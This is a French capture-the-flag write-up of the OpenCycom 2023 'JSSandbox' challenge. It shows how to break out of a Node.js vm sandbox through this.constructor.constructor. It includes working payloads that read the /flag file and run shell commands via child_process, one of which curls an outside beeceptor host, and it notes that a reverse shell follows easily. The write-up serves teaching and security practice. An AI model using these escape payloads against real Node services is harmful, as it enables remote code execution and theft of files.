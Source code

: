 ```yaml
---
title: "JSSandbox"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```


# OpenCycom 2023 - JSSandbox - *300 pts*

## Énoncé
J'ai codé un super outil pour que les débutants puissent apprendre à utiliser NodeJS facilement sur Internet, en plus j'ai sandboxé l'exécution pour pas que des petits filous essayent de faire n'importe quoi :)

Je doute quand même de la robustesse de la méthode que j'ai employée, tu peux y jeter un coup d'oeil ?

*le flag se trouve dans le fichier* `/flag`

*Ce challenge a été résolu par 8,3% des équipes.*

## Solution

Une sandbox JavaScript ! Elle me permet de jouer avec JS et d'apprendre à programmer.

La première question que je me pose est : qui ou quoi exécute mon code ? Dans ce cas précis, ça a l'air d'être le serveur qui fait tout, car rien n'est exécuté côté client. Cela veut dire que le serveur exécute le code que je veux, pas mal non ?

![](/images/015/01.png)

Sauf qu'après quelques essais, on se rend compte que cette sandbox est bien limitée : pas d'accès aux modules `fs` ou `child_process`, et surtout, pas possible de `require` des nouveaux modules.

Cela ressemble a une VM JavaScript faite avec le module node `vm`, mais c'est plutôt une bonne nouvelle pour nous, car ce module n'est pas sécurisé du tout.

Commençons par essayer de trouver si un contexte existe avec le keyword `this`.

![](/images/015/02.png)

On nous retourne `[Object object]`, ce qui veut dire que `this` existe bel et bien.

Après quelques recherches sur Internet, je me rends compte qu'il serait possible de sortir du contexte de la VM en utilisant les constructeurs de mon objet `this` : `this.constructor.constructor`. Cela veut dire qu'on peut lui passer une fonction anonyme sous forme de texte, qui sera automatiquement appelée par le constructeur lors de son instanciation. 

Par exemple, on peut faire : `this.constructor.constructor('return 1+1')`

![](/images/015/03.png)

Bingo, on arrive à exécuter du code. Mais ça nous avance à quoi ?
Ce qui compte ici c'est le contexte dans lequel est exécuté notre code. En utilisant les constructeurs, on est en mesure d'échapper le contexte de la VM pour se retrouver dans le contexte global.

On peut maintenant utiliser `require` pour appeler n'importe quelle librairie native ! À nous le flag.

`this.constructor.constructor("return process.mainModule.require(\'fs\').readFileSync(\'flag\',\'utf-8\')")()`

![](/images/015/04.png)

Petit bonus, on peut également obtenir une RCE côté système avec le module `child_process`.

`this.constructor.constructor("return process.mainModule.require(\'child_process\').exec(\'curl http://opencycom.free.beeceptor.com\')")()`

![](/images/015/05.png)

![](/images/015/06.png)

À partir de là, il est trivial d'obtenir un reverse shell :)

*FLAG : OPC{VM\*\*\*\*\*\*\*\*\*\*}*
